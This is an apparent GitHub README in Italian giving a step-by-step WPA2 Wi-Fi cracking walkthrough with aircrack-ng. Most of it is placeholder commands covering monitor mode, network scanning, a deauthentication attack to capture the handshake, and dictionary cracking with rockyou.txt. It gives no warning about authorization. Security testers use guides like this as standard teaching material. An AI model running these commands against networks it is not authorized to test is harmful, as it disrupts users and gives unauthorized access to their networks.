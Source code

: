 # AIRCRACK-NG - ATTACCO WPA2

## Requisiti
* Scheda di rete con supporto Monitor Mode
* Kali Linux / Parrot OS / Distro Linux compatibili
* Aircrack-NG
* Tutti i pacchetti di Aircrack-NG
* Dizionario password (WordList), consigliato rockyou.txt

## Utilizzo generale

1. **Abilitare la modalità monitor sulla scheda di rete**

> $ airmon-ng list

> $ airmon-ng start [nome interfaccia]

2. **Scansionare le reti disponibili con Airodump-NG**

> $ airodump-ng [nome interfaccia]

3. **Utilizzare Airodump-NG e Aireplay-NG per catturare l'handshake**

Terminale 1 (Airodump):
> $ airodump-ng -c [channel] --bssid [bssid] -w [nome-file] [nome interfaccia]
  
Terminale 2 (Aireplay):
> $ aireplay-ng -0 [numero attacchi] -a [bssid] [nome interfaccia]

4. **Crackare il file .CAP contentente l'handshake tramite Aircrack-NG e la wordlist.txt scelta**
> $ aircrack-ng -a 2 -b [bssid] -w [worldlist.txt] [file .cap]
